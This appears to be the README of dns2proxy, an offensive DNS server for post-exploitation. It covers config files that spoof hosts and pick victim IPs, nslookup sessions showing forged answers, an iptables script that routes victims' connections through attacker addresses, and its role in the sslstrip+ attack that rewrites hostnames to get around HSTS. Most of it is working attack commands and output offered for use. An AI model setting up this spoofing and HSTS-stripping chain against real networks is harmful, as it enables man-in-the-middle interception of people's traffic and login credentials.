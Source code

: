 # dns2proxy  
 
Offensive DNS server  
  
This tools offer a different features for post-explotation once you change the DNS server to a Victim.
<Referer to help (-h) to new params options>

 
## Installation  
  
dnspython (www.dnspython.com) is needed. 
Tested with Python 2.6 and Python 2.7.

    $ sudo chmod +x install.sh
    $ sudo ./install.sh
    (venv)$ python dns2proxy.py


## Config files description

domains.cfg (or dominios.cfg): resolve all hosts for the listed domains with the listed IP 
    Ex: 
    .facebook.com 1.2.3.4 
    .fbi.gov 1.2.3.4 

spoof.cfg : Spoof a host with a ip 
    Ex: 
    www.nsa.gov 127.0.0.1 

nospoof.cfg: Send always a legit response when asking for these hosts. 
    Ex. 
    mail.google.com 

nospoofto.cfg: Don't send fake responses to the IPs listed there. 
    Ex: 
    127.0.0.1 
    4.5.6.8 

victims.cfg: If not empty, only send fake responses to these IP addresses.
    Ex: 
    23.66.163.36 
    195.12.226.131   

resolv.conf: DNS server to forward the queries.
    Ex:
    nameserver 8.8.8.8


### Feature 1 
  
Traditional DNS Spoof adding to the response the original IP address.  
  
Using spoof.cfg file:  
  
   hostname ip.ip.ip.ip  
  
    root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg  
      
// launch in another terminal dns2proxy.py  
      
    root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   www.s21sec.com  
    Address: 1.1.1.1  
    Name:   www.s21sec.com  
    Address: 88.84.64.30  
  
  
or you can use domains.cfg file to spoof all host of a same domain:  
  
    root@kali:~/demoBH/dns2proxy# cat dominios.cfg  
    .domain.com 192.168.1.1  
      
    root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   aaaa.domain.com  
    Address: 192.168.1.1  
 
Hostnames at nospoof.cfg will no be spoofed.  
  
### Feature 2  
  
This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.  
Check my slides at BlackHat Asia 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) and the [Demo Video] (http://www.youtube.com/watch?v=cJtbxX1HS5I).    
  
To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!  
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding  
  
Usage: ia.sh < interface > [ip1] [ip2]   
  
  
    root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230  
    Non spoofing imap.gmail.com  
    Non spoofing mail.s21sec.com  
    Non spoofing www.google.com  
    Non spoofing www.apple.com  
    Non spoofing ccgenerals.ms19.gamespy.com  
    Non spoofing master.gamespy.com  
    Non spoofing gpcm.gamespy.com  
    Non spoofing launch.gamespyarcade.com  
    Non spoofing peerchat.gamespy.com  
    Non spoofing gamestats.gamespy.com  
    Specific host spoofing www.s21sec.com with 1.1.1.1  
    Specific domain IP .domain.com with 192.168.1.1  
    binded to UDP port 53.  
    waiting requests.  
    Starting sniffing in (eth0 = 172.16.48.128)....  
  
< at other terminal >  
 
    root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   www.microsoft.com  
    Address: 172.16.48.128  
    Name:   www.microsoft.com  
    Address: 172.16.48.230  
    Name:   www.microsoft.com  
    Address: 65.55.57.27  
  
  
The fhtang.sh script will terminate the program and restore normal iptables.  
  
Hostnames at nospoof.cfg will no be spoofed.  
  
  
### Feature 3
  
Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.  
  
This server is necesary to make the sslstrip+ attack.  
  
    root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1    <-- DNS response like accounts.google.com  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   webaccounts.google.com  
    Address: 172.16.48.128  
    Name:   webaccounts.google.com  
    Address: 172.16.48.230  
    Name:   webaccounts.google.com  
    Address: 74.125.200.84  

Another example

    root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1            <-- Take care of the 4 w! DNS response like  
    Server:         127.0.0.1                                                     www.yahoo.com  
    Address:        127.0.0.1#53  
      
    Name:   wwww.yahoo.com  
    Address: 172.16.48.128  
    Name:   wwww.yahoo.com  
    Address: 172.16.48.230  
    Name:   wwww.yahoo.com  
    Address: 68.142.243.179  
    Name:   wwww.yahoo.com  
    Address: 68.180.206.184  
